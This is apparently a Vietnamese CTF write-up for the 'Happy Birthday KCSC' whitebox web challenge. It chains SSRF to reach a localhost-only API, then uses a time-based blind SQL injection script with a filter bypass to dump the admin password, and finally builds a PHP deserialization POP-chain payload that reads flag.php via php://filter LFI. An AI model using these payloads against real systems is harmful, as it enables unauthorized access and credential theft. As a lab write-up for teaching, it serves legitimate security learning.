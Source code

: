 #  Happy Birthday KCSC
## Description
Whitebox
## Solution
Trước tiên ta sẽ review hết qua source code:

![img](./img/Screenshot%20from%202022-03-06%2021-16-31.png)

- ``index.php``: có param ``url`` được pass qua class ``CURL`` nằm trong ``curl.php``.
- ``curl.php``: ``curl_exec`` ở đây sẽ chỉ trả về giá trị bool để check xem CURL đến thành công hay không
- ``login.php``: nó  tạo query bằng ``bound parameters`` nên có vẻ không sqli được ở đây 
- ``/api/checkUser.php``: Đây rồi, nó nối trực tiếp câu truy vấn SQL động với param id, và nếu `` $_SERVER['REMOTE_ADDR']`` của ta là localhost, ta có thể thực hiện sqli. Đây chính là nơi mọi thứ bắt đầu :v.

Exploit: Ta có thể tận dụng trang index để curl đến ``/api/checkUser.php``. Còn để thực hiện được sqli, cụ thể ở đay là dạng **time based**, ta sẽ bypass cái ``preg_match`` kia bằng case insensitive và ``/**/``

payload: ``http://localhost/api/checkUser.php?id=1/**/AnD/**/SLEEP(5)``

success rồi, giờ viết script để dump mật khẩu thằng admin thui

Script:
```
#!python3
import requests
import string
sess=requests.Session()
url="http://localhost:10666/index.php"
i=1
passwd=''
while True:
    for c in string.printable:
        data={
            'url':f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/passwoRd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{c}',SLEEP(3),1)",
            'submit':'Submit'
        }     
        try:
            r=sess.post(url,data=data,timeout=3)
        except:
            i+=1
            passwd+=c
            print(passwd)
            break
```

![img](./img/Screenshot%20from%202022-03-06%2023-05-38.png)

``password``:``admin_password_foR_testing``

Giờ mình có thể lấy credential này để chui vào trang admin 

Review src code :
- ``admin.php``: Nhìn sơ qua thì có thể thấy rằng đây là dạng deserialize, cụ thể ở đây là thông qua ``$_COOKIE[data]``, Ngoài ra nó còn có filter lọc ``\x00``, theo mình đọc ở trang web [này](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/) thì %00 là null-byte và ``%00sometext%00`` chính là cách biểu diễn của 1 private property, tạm thời cứ thế đã. chui tiếp vao ``chain.php`` nào
- ``chain.php``: Có tất cả 5 classes : ``File``, ``Url``, ``Func1``, ``Func2``, ``Source``, mỗi class đều có phương thức magic method, vậy mục đích của ta ở đây là lợi dụng các magic method này để tấn công POP.

Reference:
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://www.php.net/manual/en/language.oop5.magic.php

Các magic method được sử dụng trong bài:

- ``__construct()``: gọi khi khởi tạo đối tượng.
- ``__destruct()``: gọi khi hủy đối tượng.
- ``__get()``: khi đọc dữ liệu từ một thuộc tính không được phép truy cập.
- ``__toString()``: phương thức này giúp class chỉ định xem sẽ in ra cái gì khi nó được dùng.
- ``__invoke()``:phương thức này được gọi khi một lệnh cố gắng gọi một đối tượng như một hàm.
- ``__wakeup``: được gọi khi unserialize() đối tượng.

Khi unserialize thì ``__wakeup()`` sẽ được gọi đầu tiên, vậy ta sẽ khởi tạo tại ``Func2`` trước, và Class mình cần trigger cuối cùng là ``File`` bời vì ta có thể lợi dụng ``include`` để thực hiện LFI (mình đã thử RCE thông qua data:// nhưng mà nó đã set ``allow_url_include=0`` :( ). Giờ thì viết script thui, à mà quên như đã nhắc ở trên, ta còn phải chỉnh property từ private thành public để bypass cái preg_match

```
<?php

class File {
	public $file;

	public function __toString() {
		if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
			include($this->file);
		}
		return "Ahihhii";
	}
}


class Url {
	public $url;

	public function __construct($url) {
		$this->url = $url;
	}

	public function checkUrl() {
		if (preg_match('/[http|https]:\/\//', $this->url))
			return true;
		else
			return false;
	} 
}


class Func1 {
	public $param1;
	public $param2;

	public function __get($key) {
		$key = $this->param2;
		return $this->param1->$key();
	}
}

class Source {
	public $source;

	public function __construct($s) {
		$this->source = $s;
	}
	public function __invoke() {
		return $this->source->method;
	}
}


class Func2 {
	public $param;

	public function __wakeup() {
		$function = $this->param;
		return $function();
	}
}
$f= new File(); //__tostring
$f->file = 'pHp://FilTer/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64


$func1= new Func1(); // goi tu source qua __get
$func1->param1 = $f;
$func1->param2 = '__toString';


$src = new Source($func1); // goi tu func2 qua __invoke

$func2 = new Func2(); //_wakeup
$func2->param = $src;


$payload = serialize($func2); 
//var_dump((serialize($payload)));
echo base64_encode($payload);

?>
```

![img](./img/Screenshot%20from%202022-03-07%2000-14-00.png)

![img](./img/Screenshot%20from%202022-03-07%2000-14-44.png)

flag: KCSC{real_flag}